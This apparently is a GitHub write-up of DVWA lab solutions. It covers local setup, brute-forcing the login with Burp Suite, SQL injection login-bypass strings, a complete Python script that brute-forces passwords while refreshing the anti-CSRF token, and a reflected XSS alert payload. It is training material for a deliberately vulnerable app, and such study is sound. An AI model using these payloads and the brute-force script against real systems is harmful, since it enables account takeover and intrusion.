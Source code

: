 ## Download, Install and Use of DVMA as Target 
  
### PhpStudy
	
   >(use Phpstudy for reduce the complexity of setting)<br>
   * lauch Apache, and SQL database
    
### DVMA
	
	*  Decompression of DVMA_Master.zip (which downloaded from ‘http://www.dvwa.co.uk/’) under the folder 'phpstudy_pro/wwww/.'
	*  Modify suffix of document 'config.inc.php.dist' ->> 'config.inc.php'.
	*  Modify the content of 'config.inc.php' --->>  modify values of 'db_username' and 'db_password' as 'root'.
	   ( namely, 'db_username'='root' and  'db_password' = 'root'. )
	*  Open the dvma webseit 'http://127.0.0.1/setup.php'.
	*  Login with default credential.
	   ( namely, 'username' = 'admin', 'password' = 'password')
    
# Tasks of DVMA

## DVWA Sulutions of Brute Force: 
  #### Brute Force 
  #### Low Security Level:
    *   View Source
    *   Find that, only 'Login' will be validated, isset(*) checks whether para* is set and return True/False.
    *   Without any defense of Brute Force, also without any Filter of 'username' and 'password'.
    
##### Method 1: Usage of Burpsuite for Brute Force 
	  * Steps:
		    * 1.1 open Burpsuite (Burpsuite is easy to get/download and install from web).
		    * 1.2 click Proxy, set Intercept off firstly, then click 'open browser' to load the webseite,
		    	   which need to be intercepted.
		    * 1.3 input arbitrary value to login, and Burpsuite will get the info about its.
		    * 1.4 'Ctrl+l' or chose 'Action' as 'Send it to Intruder'.
		    * 1.5 Add password as playload value.
		    * 1.6 Fill the playload set, and start attack.
		    * 1.7 Actually, you will find the response length of the correct password is different as others.
	    
##### Method 2: Sql Injection
	  * 2.1 
		-username：  admin ' or ' 1 ' = ' 1
		-password: (none)
	  * 2.2 
		-username: admin ' #   (#:annotation of rest request sentence.)
		-pass: (none)
            
#### Medium Security Level:
  * Different from Low Level, a new function is added.
  
	     * mysql_real_escape_string function, this function will transfer the special symbols, like " ' ", 
	       namely, this function can defence Sql Injection Attack.
	       Thus, the Sql Injection Attack in medium level unfeasible nowly.
	     * but the Brute Force with Burpsuit is still work in this level.
	       (same as low level, see the steps discription of low level)
            
#### Highl Security Level:
   * At high level, a function of generation of CSRF Token is added. 
   
           * namely, generateSessionToken(); // Generate Anti-CSRF token  
           * that means, the Request Url will contains a 'user_token' by sending to Server. And the Sever checks the recieved token firstly, if token is valid, then the Server 
             operates the Sql queries.
	     
* To achieve the goal at high security level, we need to write a phython script to brute force the password.
   
* Constuct request to server to get response

		req = urllib.request.Request(url=requrl,headers=header)
		
* Get ' user_token ' , we need to use BeautifulSoup package to read the reponse content, and parser the page to get 'token'
	  
		  soup = BeautifulSoup(the_page,"html.parser")
		  user_token = soup.find('input',{'name':'user_token'})['value']
	   
* Brute force the password by sending request to the server with following URL, which including the param 'user_token' additional

	   	 requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token 
		
* Use the Brupsuite to intercept the whole runtime of python code, we need to set the ProxyHandler of those code, so that, the Proxy is same as Brupsuite's.
      
      		proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'}) ; opener = urllib.request.build_opener(proxy_handler)
          
##### Complete Code is as following:

	from bs4 import BeautifulSoup
	import urllib.request


	proxy_handler = urllib.request.ProxyHandler({'http': '127.0.0.1:8080'})
	opener = urllib.request.build_opener(proxy_handler)


	header = {
		'Host': '192.168.178.34',
			'Cache-Control': 'max-age=0',
			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'Referer': 'http://192.168.178.34/vulnerabilities/brute/index.php',
			'Accept-Encoding': 'zip, deflate',
			'Accept-Language': 'zh-CN,zh;q=0.9',
			'Cookie': 'security=high; PHPSESSID=ra6hjmncufirj8n9qgioejm854'
			}

	requrl = "http://192.168.178.34/vulnerabilities/brute/"

	def get_token(requrl,header):
		req = urllib.request.Request(url=requrl,headers=header)
		response = opener.open(req)
		the_page = response.read()
		soup = BeautifulSoup(the_page,"html.parser")
		print(len(the_page),response.getcode())
		user_token = soup.find('input',{'name':'user_token'})['value']  #get the user_token
		#print(user_token)
		return user_token

	user_token = get_token(requrl,header)

	i=0

	for line in open('test'):
		requrl = "http://192.168.178.34/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token
		i = i+1
		print(i,'admin',line.strip(),end=" ")
		user_token = get_token(requrl, header)
		if (i == 7):
			break
			
		# because 'test' is only including 7 passwords.
        
        
    
## XSS(Reflected)
      * View Source
      * Find that, value of param 'name' is directly used, and without any Checking and filtering of Script.
      * Input: <script>alert('hello world')</script>
